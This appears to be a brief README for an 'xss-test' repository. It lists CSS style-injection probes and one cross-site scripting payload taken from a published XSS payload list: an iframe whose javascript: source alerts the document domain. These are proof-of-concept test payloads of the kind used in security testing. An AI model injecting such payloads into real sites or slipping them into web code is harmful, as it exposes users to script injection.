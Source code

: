 # xss-test
xss



<div style="font-family:'foo&#10;;color:red;';">XXX

<div style="font-family:foo}color=red;">HOLA


```

<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->
<!--        Author : Ismail Tasdelen -->

<IFRAME SRC="javascript:javascript:alert(document.domain);"></IFRAME>


```
